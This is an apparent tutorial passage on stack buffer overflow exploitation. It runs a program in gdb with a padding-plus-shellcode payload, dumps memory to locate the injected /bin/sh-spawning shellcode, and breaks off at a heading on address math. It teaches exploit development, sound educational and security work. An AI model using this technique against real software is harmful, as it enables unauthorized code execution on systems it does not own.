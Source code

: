 using gdb, run this:

```sh
(gdb) run $(python -c "print 'A' * 100 + shellcode + 'B' * 12 + 'C' * 6")
```

then dump the memory to see where the payload ended up, and the memory addresses associated with it.

```sh
(gdb) x/100x $rsp-200
0x7fffffffe228: 0x00400450      0x00000000      0xffffe3e0      0x00007fff
0x7fffffffe238: 0x00400561      0x00000000      0xf7dce8c0      0x00007fff
0x7fffffffe248: 0xffffe656      0x00007fff      0x41414141      0x41414141
0x7fffffffe258: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe268: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe278: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe288: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe298: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe2a8: 0x41414141      0x41414141      0x41414141      0x622fb948
0x7fffffffe2b8: 0x732f6e69      0xc1481168      0xc14808e1      0x485108e9
0x7fffffffe2c8: 0x48243c8d      0x3bb0d231      0x4242050f      0x42424242
0x7fffffffe2d8: 0x42424242      0x43434242      0x43434343      0x00007f00
0x7fffffffe2e8: 0x00400590      0x00000000      0xffffe3e8      0x00007fff
0x7fffffffe2f8: 0x00000000      0x00000002      0x004005a0      0x00000000
0x7fffffffe308: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe318: 0xffffe3e8      0x00007fff      0x00040000      0x00000002
0x7fffffffe328: 0x00400564      0x00000000      0x00000000      0x00000000
0x7fffffffe338: 0x14cb65ee      0xa528a1f1      0x00400450      0x00000000
0x7fffffffe348: 0xffffe3e0      0x00007fff      0x00000000      0x00000000
0x7fffffffe358: 0x00000000      0x00000000      0xd9ab65ee      0x5ad75e8e
0x7fffffffe368: 0x404f65ee      0x5ad74e39      0x00000000      0x00000000
0x7fffffffe378: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe388: 0xffffe400      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffe398: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffe3a8: 0x00000000      0x00000000      0x00000000      0x00000000
(gdb) 

```

:::note

each COLUMN is 4 bytes wide

:::

the dump command:

```sh
(gdb) x/100x $rsp-200
```

this says "dump 100x4 bytes from memory location `$rsp-200`" (why rsp-200?) then look at the output, see the `\x41`s and see where the shellcode starts i.e. `\x6a\x3b\x58...`

### Memory Address Math
